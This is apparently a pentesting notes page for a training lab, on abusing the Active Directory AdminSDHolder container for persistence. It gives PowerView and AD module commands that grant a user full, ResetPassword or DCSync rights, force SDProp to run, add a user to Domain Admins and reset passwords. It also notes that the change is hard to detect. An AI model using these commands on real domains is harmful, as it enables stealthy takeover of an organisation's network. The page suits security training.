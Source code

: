 # AdminSDHolder

AdminSDHolder is a system container that used to control permissions.\
These permissions are used as a template for protected accounts to prevent modifications to them.&#x20;

Security Descriptor Propagator (SDPROP) runs every 60 minutes.\
SDPROP compares between the ACL of the protected groups and members and the ACL of AdminSDHolder, then any differences are overwritten on the ACL Object.

Hence when we get Domain Admin access even if we add ACL's to a user that we control, after an hour the SDPROP will rewrite the ACL's of the domain admin's group and our user's DA ACL's will be deleted.

So to exploit this we'll be adding ACL to the AdminSDHolder itself which will propagate the ACLs to all the protected groups for us.

There aren't any special logs that are generated when changes to the AdminSDHolder ACL's is made, making it difficult for the blue team to detect.

<details>

<summary>Protected Groups</summary>

* Account Operators
* Backup Operators
* Server Operators
* Print Operators
* Domain Admins
* Replicator
* Enterprise Admins
* Domain Controllers
* Read only Domain Controllers
* Schema Admins
* Administrators

</details>

* All below can log on locally to DC: - Commonly abused protected groups
  * Account Operators - Cannot modify DA/EA/BA Groups. Can modify nested group within these groups
  * Backup Operators - Backup GPO, edit to add SID of controlled account to a privileged group and restore
  * Server Operators - Run a command as system (using the disabled browser service)
  * Print Operators - Copy ntds.dit backup, load device drivers

## Exploitation

An attacker can utilize SDROP mechanism by adding a user with GenericAll privileges\
to theAdminSD Holder object.\
\
When the SDPROP runs (every 60 minutes) the user will be add with elevated privileges.

Adding user to the AdminSDHolder object

{% code overflow="wrap" %}
```powershell
# Full privs
Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,dcdollarcorp,dc=moneycorp,dc=local' -PrincipalIdentity student1 -Rights All -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose

# Reset Password priv
Add-DomainObjectAcl -TargetIdentity
'CN=AdminSDHolder,CN=System,dc=dollarcorp,dc=moneycorp,dc=loc
al' -PrincipalIdentity student1 -Rights ResetPassword -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose

# Write Members priv
Add-DomainObjectAcl -TargetIdentity
'CN=AdminSDHolder,CN=System,dc=dollarcorp,dc=moneycorp,dc=loc
al' -PrincipalIdentity student1 -Rights WriteMembers -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose

# DC Sync priv
Add-DomainObjectAcl -TargetIdentity
'CN=AdminSDHolder,CN=System,dc=dollarcorp,dc=moneycorp,dc=loc
al' -PrincipalIdentity student1 -Rights DCSync -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose
```
{% endcode %}

Run SDProp manually

{% embed url="https://github.com/theyoge/AD-Pentesting-Tools/blob/main/Invoke-SDPropagator.ps1" %}

```powershell
Invoke-SDPropagator -timeoutMinutes 1 -showProgress -Verbose

# pre-Server 2008 machines
Invoke-SDPropagator -taskname FixUpInheritance -timeoutMinutes 1 -showProgress -Verbose
```

## Abusing rights

{% tabs %}
{% tab title="PowerView" %}
```powershell
# Add user to DA group
Add-DomainGroupMember -Identity 'Domain Admins' -Members testda -Verbose

# Reset Password
Set-DomainUserPassword -Identity testda -AccountPassword (ConvertTo-SecureString "Password@123" -AsPlainText -Force) -Verbose
```
{% endtab %}

{% tab title="AD Module" %}
```powershell
# Add user to DA group
Add-ADGroupMember -Identity 'Domain Admins' -Members testda

# Reset Password
Set-ADAccountPassword -Identity testda -NewPassword (ConvertTo-SecureString "Password@123" -AsPlainText -Force) -Verbose
```
{% endtab %}
{% endtabs %}
